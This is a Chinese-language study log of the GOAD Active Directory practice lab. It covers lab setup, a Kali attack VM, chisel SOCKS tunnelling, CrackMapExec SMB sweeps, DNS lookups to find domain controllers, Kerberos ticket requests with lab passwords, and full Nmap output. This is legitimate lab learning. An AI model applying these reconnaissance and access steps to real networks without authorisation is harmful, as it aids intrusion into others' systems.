这篇文章整理了我在 GOAD（Game of Active Directory）靶场中的学习记录，按照靶场搭建、侦查扫描、寻找用户、域内枚举、中继和已有用户权限利用的顺序展开。实验包含多个域控和成员服务器，文中的账户、密码、IP 地址与操作结果均来自靶场。

> 笔记记录的是 2023 年的实验环境和当时的工具版本。GOAD 的安装方式、工具参数和系统补丁状态可能已经变化；部署时请结合 [GOAD 官方项目](https://github.com/Orange-Cyberdefense/GOAD)的当前说明。MS14-068 部分主要记录原理与工具用法，不代表在这套实验环境中已成功利用。

## 一、GOAD 靶场搭建

### 成功案例

建议先阅读 [GOAD 官方文档](https://github.com/Orange-Cyberdefense/GOAD)和 [u21h2 的安装文章](https://qusec.cn/posts/G0AD/)。

#### 安装历程

以下记录供参考，推荐使用 Ubuntu 安装。服务器配置如下：

```bash
            .-/+oossssoo+/-.               ctf@gh-virtual-machine
        `:+ssssssssssssssssss+:`           ----------------------
      -+ssssssssssssssssssyyssss+-         OS: Ubuntu 22.04.2 LTS x86_64
    .ossssssssssssssssssdMMMNysssso.       Host: VMware Virtual Platform None
   /ssssssssssshdmmNNmmyNMMMMhssssss/      Kernel: 5.15.0-74-generic
  +ssssssssshmydMMMMMMMNddddyssssssss+     Uptime: 9 hours, 7 mins
 /sssssssshNMMMyhhyyyyhmNMMMNhssssssss/    Packages: 2754 (dpkg), 13 (snap)
.ssssssssdMMMNhsssssssssshNMMMdssssssss.   Shell: zsh 5.8.1
+sssshhhyNMMNyssssssssssssyNMMMysssssss+   Resolution: 800x600
ossyNMMMNyMMhsssssssssssssshmmmhssssssso   Terminal: /dev/pts/4
ossyNMMMNyMMhsssssssssssssshmmmhssssssso   CPU: Intel Xeon Silver 4210 (20) @ 2.194GHz
+sssshhhyNMMNyssssssssssssyNMMMysssssss+   GPU: 00:0f.0 VMware SVGA II Adapter
.ssssssssdMMMNhsssssssssshNMMMdssssssss.   Memory: 22997MiB / 64393MiB
 /sssssssshNMMMyhhyyyyhdNMMMNhssssssss/
  +sssssssssdmydMMMMMMMMddddyssssssss+
   /ssssssssssshdmNNNNmyNMMMMhssssss/
    .ossssssssssssssssssdMMMNysssso.
      -+sssssssssssssssssyyyssss+-
        `:+ssssssssssssssssss+:`
            .-/+oossssoo+/-.
```

可以使用 [deploy-goad 安装脚本](https://github.com/lkarlslund/deploy-goad.git)部署：

```bash
sudo -i
apt install git
git clone https://github.com/lkarlslund/deploy-goad
cd deploy-goad
./deploy-goad.sh #注意根据系统版本修改脚本
cd /opt/goad/ansible
ansible-playbook main.yml
```

如果安装失败，可以重试 `ansible-playbook main.yml`，或按顺序逐个执行文件，直至没有报错。

```bash
 ansible-playbook build.yml        # Install stuff and prepare vm
 ansible-playbook ad-servers.yml   # create main domains, child domain and enroll servers
 ansible-playbook ad-trusts.yml    # create the trust relationships
 ansible-playbook ad-data.yml      # import the ad datas : users/groups...
 ansible-playbook laps.yml
 ansible-playbook ad-relations.yml # set the rights and the group domains relations
 ansible-playbook adcs.yml         # Install ADCS on essos
 ansible-playbook ad-acl.yml       # set the ACE/ACL
 ansible-playbook servers.yml      # Install IIS and MSSQL
 ansible-playbook security.yml     # Configure some securities (adjust av enable/disable)
 ansible-playbook vulnerabilities.yml        # Configure some vulnerabilities
```

#### 测试与备份

攻击机可以参考 [Kali 安装记录](https://github.com/N1etzsche0/GOAD/blob/main/GOAD-Part1-Install/KALI-Install.md)搭建。

通过 SOCKS 代理使用 Nmap 扫描时，可能出现数据包丢失。

在服务器上启动 Chisel 服务端：

```bash
ubuntu@ctf:~$./chisel server -v -p port --socks5
```

从攻击机连接：

```bash
arch@ctf:~$./chisel client host:port socks
arch@ctf:~$cat /etc/proxychains.conf
......
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

使用 ProxyChains 代理 CrackMapExec 进行测试：

```bash
sudo proxychains -q poetry run crackmapexec smb  192.168.56.1/24
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
```

备份

```bash
ubuntu@ctf:~$vagrant snapshot save initial-setup
```

#### 失败经验

在服务器上按照[官方文档](https://github.com/Orange-Cyberdefense/GOAD)使用 Docker 运行 Ansible 时，安装总是在某个阶段停止，原因未知。

```bash
sudo docker build -t goadansible .
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook -i ../ad/sevenkingdoms.local/inventory main.yml
```

我尝试在 Ubuntu 上搭建 OpenVPN 访问 GOAD 靶场，但没有成功。

如需在 Proxmox 上部署，可以参考 [GOAD 作者的文章](https://mayfly277.github.io/posts/GOAD-on-proxmox-part1-install/)。

### 失败案例

我的笔记本配置

```bash
 neofetch
                   -`                    joker@kali
                  .o+`                   ----------
                 `ooo/                   OS: Arch Linux x86_64
                `+oooo:                  Host: Dell G15 5511
               `+oooooo:                 Kernel: 6.3.4-arch1-1
               -+oooooo+:                Uptime: 3 hours, 5 mins
             `/:-:++oooo+:               Packages: 1359 (pacman), 7 (flatpak)
            `/++++/+++++++:              Shell: zsh 5.9
           `/++++++++++++++:             Resolution: 2560x1440
          `/+++ooooooooooooo/`           DE: GNOME 44.1
         ./ooosssso++osssssso+`          WM: Mutter
        .oossssso-````/ossssss+`         WM Theme: Orchis-Dark-Compact
       -osssssso.      :ssssssso.        Theme: Orchis-Dark [GTK2/3]
      :osssssss/        osssso+++.       Icons: Tela-black-dark [GTK2/3]
     /ossssssss/        +ssssooo/-       Terminal: terminator
   `/ossssso+/:-        -:/+osssso+-     CPU: 11th Gen Intel i7-11800H (16) @ 4.600GHz
  `+sso+:-`                 `.-/+oso:    GPU: Intel TigerLake-H GT1 [UHD Graphics]
 `++:.                           `-/+/   GPU: NVIDIA GeForce RTX 3060 Mobile / Max-Q
 .`                                 `/   Memory: 28445MiB / 31845MiB
```

所以修改Vagrantfile文件46、47配置为

```text
v.memory = 2000
v.cpus = 1
```

```bash
vagrant up --provision #最好添加
```

```bash
docker build -t goadansible .
sudo  ansible-playbook main.yml
```

运行 Ansible 时出现多处报错，多次尝试仍然失败；可能与系统环境或资源配置有关。

正在尝试用学校服务器重新搭建

## 二、Kali 攻击机搭建（可选）

### 案例

#### 安装指令

这里参考 [Kali 官方教程](https://www.kali.org/docs/virtualization/install-vagrant-guest-vm/)。

```bash
vagrant init kalilinux/rolling
```

Vagrantfile配置如下

```ruby
Vagrant.configure("2") do |config|

  config.vm.box = "kalilinux/rolling"
  config.vm.network "forwarded_port", guest: 22, host: 3333
  config.vm.network "private_network", ip: "192.168.56.50"
  config.vm.provider "virtualbox" do |v|
    v.gui = false
    v.memory = "4096"
  end
  config.vm.provision "shell", inline: <<-EOF
    sudo apt update
    sudo apt install -y crowbar
  EOF
end
```

启动

```bash
vagrant up
```

可以通过本地 `3333` 端口登录，或使用 `vagrant ssh`。

#### 测试

```bash
cat /etc/hosts
```

```bash
192.168.56.10   sevenkingdoms.local kingslanding.sevenkingdoms.local kingslanding
192.168.56.11   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell
192.168.56.12   essos.local meereen.essos.local meereen
192.168.56.22   castelblack.north.sevenkingdoms.local castelblack
192.168.56.23   braavos.essos.local braavos
```

```bash
crackmapexec smb 192.168.56.0/24
```

```bash
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
```

测试成功

## 三、侦查与扫描

### 枚举网络

#### CME侦查

使用 CrackMapExec（CME）扫描 SMB 服务，可以快速获取实验环境中 Windows 主机的 IP、名称、域名和签名状态。

```bash
crackmapexec smb 192.168.56.0/24
```

```bash
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
```

我们现在知道有 3 个域：

- north.sevenkingdoms.local (2 ip)
  - 192.168.56.22 CASTELBLACK(Windows server 2019)(signing false)
  - 192.168.56.11 WINTERFELL(Windows server 2019)
- sevenkingdoms.local (1 ip)
  - 192.168.56.10 KINGSLANDING(Windows server 2019)
- essos.local (2 ip)
  - 192.168.56.23 BRAAVOS(Windows server 2016)(signing false)
  - 192.168.56.12 MEEREEN(Windows Server 2016)

本次实验中三个域各有一个域控制器。SMB 签名状态可以作为排查线索，但不能单凭它确定主机角色；下面再通过 DNS SRV 记录验证。要求 SMB 签名可以抵御针对 SMB 服务的 NTLM 中继，其他协议还需要各自的防护。

SMB是一种网络文件共享协议
因此，SMB需要计算机或服务器上的网络端口才能与其他系统通信
SMB使用IP端口:139或445

- 端口 139：SMB最初使用端口139在NetBIOS之上运行NetBIOS是一个较旧的传输层，它允许Windows计算机在同一网络上相互通信

- 端口 445：更高版本的SMB(在Windows2000之后)开始在TCP堆栈之上使用端口445,使用TCP允许SMB通过Internet工作

#### 寻找域控

通过使用nslookup查询dns来枚举DC的IP

```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10
```

```bash
Server:  192.168.56.10
Address: 192.168.56.10#53

_ldap._tcp.dc._msdcs.sevenkingdoms.local service = 0 100 389 kingslanding.sevenkingdoms.local.
```

```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.north.sevenkingdoms.local 192.168.56.10
```

```bash
Server:  192.168.56.10
Address: 192.168.56.10#53

Non-authoritative answer:
_ldap._tcp.dc._msdcs.north.sevenkingdoms.local service = 0 100 389 winterfell.north.sevenkingdoms.local.

Authoritative answers can be found from:
winterfell.north.sevenkingdoms.local internet address = 192.168.56.11
winterfell.north.sevenkingdoms.local internet address = 10.0.2.15
```

```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.essos.local 192.168.56.10
```

```bash
Server:  192.168.56.10
Address: 192.168.56.10#53

Non-authoritative answer:
_ldap._tcp.dc._msdcs.essos.local service = 0 100 389 meereen.essos.local.

Authoritative answers can be found from:
meereen.essos.local internet address = 192.168.56.12
```

#### 设置/etc/hosts和kerberos

设置/etc/hosts文件来配置DNS

```bash
192.168.56.10   sevenkingdoms.local kingslanding.sevenkingdoms.local kingslanding
192.168.56.11   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell
192.168.56.12   essos.local meereen.essos.local meereen
192.168.56.22   castelblack.north.sevenkingdoms.local castelblack
192.168.56.23   braavos.essos.local braavos
```

安装Linux kerberos客户端

```bash
sudo apt install krb5-user
```

设置如下

```bash
realm: essos.local
servers: meereen.essos.local
```

配置/etc/krb5.conf

```bash
[libdefaults]
  default_realm = essos.local
  kdc_timesync = 1
  ccache_type = 4
  forwardable = true
  proxiable = true
  fcc-mit-ticketflags = true
[realms]
  north.sevenkingdoms.local = {
      kdc = winterfell.north.sevenkingdoms.local
      admin_server = winterfell.north.sevenkingdoms.local
    }
  sevenkingdoms.local = {
      kdc = kingslanding.sevenkingdoms.local
      admin_server = kingslanding.sevenkingdoms.local
    }
  essos.local = {
      kdc = meereen.essos.local
      admin_server = meereen.essos.local
    }
......
```

如果已经安装了 krb5-user，我们可以使用(dpkg-reconfigure 或通过修改/etc/krb5.conf)重新配置它

```bash
dpkg-reconfigure krb5-config
```

现在已在环境中设置好了kerberos，我们将尝试是否可以为用户获取 TGT(假设已知用户密码)

使用impacket/examples中的getTGT脚本

```bash
impacket-getTGT essos.local/khal.drogo:horse
```

设置环境变量

```bash
export KRB5CCNAME=khal.drogo.ccache
impacket-smbclient -k @braavos.essos.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
all
C$
CertEnroll
IPC$
public
# use C$
# ls
drw-rw-rw-          0  Thu Feb 14 06:42:10 2019 $Recycle.Bin
-rw-rw-rw-     384322  Thu Feb 14 14:38:48 2019 bootmgr
-rw-rw-rw-          1  Thu Feb 14 14:38:48 2019 BOOTNXT
-rw-rw-rw-        557  Wed May 31 02:17:02 2023 dns_log.txt
drw-rw-rw-          0  Wed May 31 06:44:03 2023 Documents and Settings
drw-rw-rw-          0  Wed May 31 02:43:38 2023 inetpub
-rw-rw-rw- 1476395008  Fri Jun  2 03:37:03 2023 pagefile.sys
drw-rw-rw-          0  Thu Feb 14 07:19:12 2019 PerfLogs
drw-rw-rw-          0  Wed May 31 03:13:57 2023 Program Files
drw-rw-rw-          0  Wed May 31 06:18:09 2023 Program Files (x86)
drw-rw-rw-          0  Wed May 31 05:56:25 2023 ProgramData
drw-rw-rw-          0  Tue May 30 22:44:34 2023 Recovery
drw-rw-rw-          0  Wed May 31 03:07:19 2023 setup
drw-rw-rw-          0  Wed May 31 06:22:02 2023 shares
drw-rw-rw-          0  Thu Feb 14 14:40:57 2019 System Volume Information
drw-rw-rw-          0  Wed May 31 02:28:11 2023 tmp
drw-rw-rw-          0  Wed May 31 03:15:37 2023 Users
drw-rw-rw-          0  Wed May 31 02:47:28 2023 Windows
# Bye!
```

kerberos设置很好,取消Ticket

```bash
unset KRB5CCNAME
```

对winterfell进行测试,出现问题

```bash
impacket-getTGT north.sevenkingdoms.local/arya.stark:Needle
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in arya.stark.ccache
```

```bash
export KRB5CCNAME=arya.stark.ccache
```

作者也不知道为什么kerberos不能在具有完整 FQDN 的 winterfell上运行，但是只需设置目标为 winterfell 而不是 winterfell.north.sevenkingdoms.loca就可以了

```bash
impacket-smbclient -k @winterfell.north.sevenkingdoms.local

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
```

```bash
impacket-smbclient -k @winterfell
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use C$
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use SYSVOL
# ls
drw-rw-rw-          0  Wed May 31 02:08:31 2023 .
drw-rw-rw-          0  Wed May 31 02:08:31 2023 ..
drw-rw-rw-          0  Wed May 31 02:08:31 2023 north.sevenkingdoms.local
#
```

#### Nmap

nmap会在扫描目标之前执行ping,如果目标不响应ping,它将被忽略

确保我们不会遗漏TCP上任何内容的方法可能是使用以下选项进行扫描：

```bash
nmap -Pn -p- -sC -sV -oA full_scan_goad 192.168.56.10-12,22-23
```

- Pn 不ping 直接扫描提供的全部IP
- p- 扫描全部65535个端口
- sC 执行侦查脚本
- sV 遍历版本
- oA 以三种形式输出结果 (nmap classic, grep format, xml format)

```bash
# Nmap 7.93 scan initiated Fri Jun  2 05:50:26 2023 as: nmap -Pn -p- -sC -sV -oA full_scan_goad 192.168.56.10-12,22-23
Nmap scan report for sevenkingdoms.local (192.168.56.10)
Host is up (0.0023s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-02 09:54:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2023-05-31T06:37:34
|_Not valid after:  2024-05-30T06:37:34
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2023-05-31T06:37:34
|_Not valid after:  2024-05-30T06:37:34
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2023-05-31T06:37:34
|_Not valid after:  2024-05-30T06:37:34
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2023-05-31T06:37:34
|_Not valid after:  2024-05-30T06:37:34
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Not valid before: 2023-05-30T05:54:08
|_Not valid after:  2023-11-29T05:54:08
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn:
|_  http/1.1
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2023-05-29T19:28:41
|_Not valid after:  2026-05-28T19:28:41
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
53365/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: KINGSLANDING; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: KINGSLANDING, NetBIOS user: <unknown>, NetBIOS MAC: 080027078d64 (Oracle VirtualBox virtual NIC)
| smb2-time:
|   date: 2023-06-02T09:56:27
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_Message signing enabled and required
|_clock-skew: mean: 9s, deviation: 0s, median: 9s

Nmap scan report for winterfell.north.sevenkingdoms.local (192.168.56.11)
Host is up (0.0028s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-02 09:54:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2023-05-31T09:47:43
|_Not valid after:  2024-05-30T09:47:43
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2023-05-31T09:47:43
|_Not valid after:  2024-05-30T09:47:43
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2023-05-31T09:47:43
|_Not valid after:  2024-05-30T09:47:43
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2023-05-31T09:47:43
|_Not valid after:  2024-05-30T09:47:43
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Not valid before: 2023-05-30T06:09:19
|_Not valid after:  2023-11-29T06:09:19
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| rdp-ntlm-info:
|   Target_Name: NORTH
|   NetBIOS_Domain_Name: NORTH
|   NetBIOS_Computer_Name: WINTERFELL
|   DNS_Domain_Name: north.sevenkingdoms.local
|   DNS_Computer_Name: winterfell.north.sevenkingdoms.local
|   DNS_Tree_Name: sevenkingdoms.local
|   Product_Version: 10.0.17763
|_System_Time: 2023-06-02T09:56:28+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| tls-alpn:
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2023-05-29T19:33:15
|_Not valid after:  2026-05-28T19:33:15
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
63300/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WINTERFELL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WINTERFELL, NetBIOS user: <unknown>, NetBIOS MAC: 080027341fc8 (Oracle VirtualBox virtual NIC)
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_clock-skew: mean: 9s, deviation: 0s, median: 9s
| smb2-time:
|   date: 2023-06-02T09:56:25
|_  start_date: N/A

Nmap scan report for essos.local (192.168.56.12)
Host is up (0.0022s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-02 09:54:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=meereen.essos.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:meereen.essos.local
| Not valid before: 2023-05-31T06:37:56
|_Not valid after:  2024-05-30T06:37:56
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: ESSOS)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=meereen.essos.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:meereen.essos.local
| Not valid before: 2023-05-31T06:37:56
|_Not valid after:  2024-05-30T06:37:56
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=meereen.essos.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:meereen.essos.local
| Not valid before: 2023-05-31T06:37:56
|_Not valid after:  2024-05-30T06:37:56
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=meereen.essos.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:meereen.essos.local
| Not valid before: 2023-05-31T06:37:56
|_Not valid after:  2024-05-30T06:37:56
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=meereen.essos.local
| Not valid before: 2023-05-30T05:54:18
|_Not valid after:  2023-11-29T05:54:18
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2023-05-29T19:36:59
|_Not valid after:  2026-05-28T19:36:59
| tls-alpn:
|   h2
|_http/1.1
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
60199/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MEEREEN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-06-02T09:56:26
|_start_date: 2023-06-02T00:35:27
